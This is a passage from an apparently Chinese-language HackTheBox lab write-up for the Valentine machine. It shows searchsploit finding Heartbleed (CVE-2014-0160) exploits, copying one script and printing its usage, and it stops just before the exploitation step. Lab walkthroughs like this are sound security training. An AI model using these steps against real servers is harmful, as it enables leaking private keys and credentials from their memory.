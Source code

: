 

### 非MSF

搜索EXP：

```shell
┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ searchsploit heartbleed                                            
--------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                           |  Path
--------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)      | multiple/remote/32764.py
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (1)                                      | multiple/remote/32791.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Information Leak (2) (DTLS Support)                       | multiple/remote/32998.c
OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure                                         | multiple/remote/32745.py
--------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

找个利用脚本进行利用

```shell
┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ searchsploit -m multiple/remote/32764.py
  Exploit: OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)
      URL: https://www.exploit-db.com/exploits/32764
     Path: /usr/share/exploitdb/exploits/multiple/remote/32764.py
    Codes: CVE-2014-0346, CVE-2014-0160, OSVDB-105465
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/xavier/Desktop/HTB/012-Valentine/32764.py

┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ python2 32764.py -h
Usage: 32764.py server [options]

Test for SSL heartbeat vulnerability (CVE-2014-0160)

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  TCP port to test (default: 443)
```

漏洞利用：
